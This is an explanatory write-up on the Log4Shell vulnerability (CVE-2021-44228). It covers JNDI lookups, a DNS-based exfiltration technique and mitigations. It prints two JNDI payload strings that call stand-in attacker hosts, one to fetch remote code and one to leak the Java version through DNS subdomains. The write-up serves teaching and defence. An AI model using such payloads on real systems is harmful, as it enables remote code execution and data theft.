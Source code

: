 
# **Log4J** 
"Log4Shell" 
**(CVE-2021-44228)**
Apache Log4j 2 Library
https://nvd.nist.gov/vuln/detail/CVE-2021-44228

The Log4j vulnerability exploits the way Log4j processes log messages. Specifically, it takes advantage of Log4j's feature that allows log messages to include references to external resources via the ==`Java Naming and Directory Interface (JNDI)`==. The JNDI allows Java applications to discover and look up data and resources using names. When Log4j processes a log message containing a JNDI lookup, it can be tricked into fetching and executing malicious code from a remote server.


Example:
==`${jndi:ldap://malicious-server.com/a}`==


When this string is logged, Log4j interprets it and makes a request to the specified LDAP server (`malicious-server.com`), which can then return a payload that gets executed on the vulnerable server.


## **DNS Exfiltration Technique**

The write-up you mentioned describes a method for exfiltrating data using DNS queries. This technique leverages the Log4j vulnerability to send sensitive information from the victim machine to an attacker-controlled domain via DNS, which is often less monitored and restricted compared to other protocols.

Explanation of the Technique:

1. **Setting Up a DNS Server**: The attacker sets up a DNS server that can log queries made to a specific domain (e.g., `attacker.com`).
    
2. **Crafting the Payload**: The payload is crafted to include the data to be exfiltrated within a DNS query:

==`${jndi:ldap:///${sys:java.version}.attacker.com/}`==

3. **Payload Execution**: When this payload is processed by Log4j, it triggers a JNDI lookup. The lookup involves a DNS query to `attacker.com` that includes the value of `${sys:java.version}` (the Java version) as a subdomain.

**Why Use DNS Subdomains?**

- **DNS Queries are Lightweight**: DNS queries are small and often allowed through firewalls and monitoring systems without much scrutiny.
- **Data in Subdomains**: By placing the data to be exfiltrated in the subdomain part of the DNS query, the attacker ensures that the data reaches their DNS server. In contrast, using URLs directly in the LDAP query might not send the desired data (e.g., `${sys:java.version}`) as part of the network request.
- **Easier Exfiltration**: Since the LDAP wrapper doesn't send the entire URL, embedding the data in the DNS query as a subdomain ensures that the information is transmitted.

This query is sent to the attacker's DNS server, effectively exfiltrating the Java version from the victim machine.


## ==**Mitigation**==

Monitoring and Mitigating the Vulnerability

To detect and mitigate such attacks:

1. **Patch Log4j**: Update to the latest version of Log4j, which addresses this vulnerability.
2. **Monitor DNS Traffic**: Implement monitoring for unusual DNS queries that may indicate data exfiltration attempts.
3. **Use Web Application Firewalls (WAFs)**: Configure WAFs to detect and block suspicious payloads that exploit this vulnerability.
4. **Network Segmentation**: Limit outbound connections from servers to only necessary destinations.

****


